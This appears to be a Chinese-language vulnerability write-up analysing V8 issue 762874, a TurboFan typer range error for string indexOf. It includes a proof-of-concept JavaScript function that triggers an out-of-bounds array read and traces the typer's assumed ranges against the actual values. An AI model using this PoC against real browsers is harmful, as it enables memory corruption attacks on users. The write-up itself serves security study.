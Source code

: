## issue 762874

### Root case

https://source.chromium.org/chromium/v8/v8.git/+/8cd4009c5b7072ad224f19a9e668ec0ed7430599:src/compiler/typer.cc;l=1456
在源码中规定了LastIndexOf的range为（-1.0，kMaxLength - 1.0）
```
case kStringLastIndexOf:
    return Type::Range(-1.0, String::kMaxLength - 1.0, t->zone());
```

我们直接结合poc来做分析：
```
function foo()
{
    let b = 'A'.repeat(2**30-25).indexOf('',2**30-25);
    let a = b + 25;
    let c = a >> 30;
    let idx = c * 5;
    let oobArray = [1.1,2.2,3.3,4.4];
    return oobArray[idx];
}

print(foo());
print(foo());
%OptimizeFunctionOnNextCall(foo);
print(foo());
```

首先不同版本的StringMaxLength不太一样，建议在自己的复现环境下看一下具体的大小
```
d8> const max = %StringMaxLength();
undefined
d8> max
1073741799
d8> 'a'.repeat(2**30-25).indexOf('',2**30)
1073741799
```

let b = 'A'.repeat(2\*\*30-25).indexOf('',2**30-25);
- turbofan ： range(-1,2\*\*30-26)
- 实际：2\*\*30-25

let a = b + 25;
- turbofan ：range(24,2\*\*30-25)
- 实际： 2\*\*30

let c = a >> 30;
- turbofan ：range(0,0)
- 实际： 1

let idx = c * 5;
- turbofan ：range(0,0)
- 实际： 5
